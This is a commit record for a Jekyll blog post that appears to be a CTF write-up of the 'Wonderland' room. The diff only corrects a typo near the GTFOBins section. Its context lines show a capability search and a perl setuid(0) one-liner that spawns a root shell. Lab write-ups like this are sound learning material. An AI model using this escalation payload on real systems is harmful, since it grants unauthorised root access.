

Before and after one commit to 1neWrld/1neWrld.github.io, a Jekyll site: the page built from _posts/2025-05-15-Wonderland.md, in a window 1280 px wide and 900 px high, scrolled down 10038 px. Shown: the whole window, without its empty margins (201-1061 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-05-15-Wonderland.md

````diff
--- a/_posts/2025-05-15-Wonderland.md
+++ b/_posts/2025-05-15-Wonderland.md
@@ -343,7 +343,7 @@ getcap -r / 2>/dev/null
 
   *Checked GTFOBins under the **Capabilities** section for perl*
 
-GTFOBins contains lists of Unnix executables, to assist in bypassing security mechanisms in incorrectly setup systems.
+GTFOBins contains lists of Unix executables, to assist in bypassing security mechanisms in incorrectly setup systems.
 
 ```bash
 perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
````
Also changed, not shown: other parts of _posts/2025-05-15-Wonderland.md (+4 -4 lines).
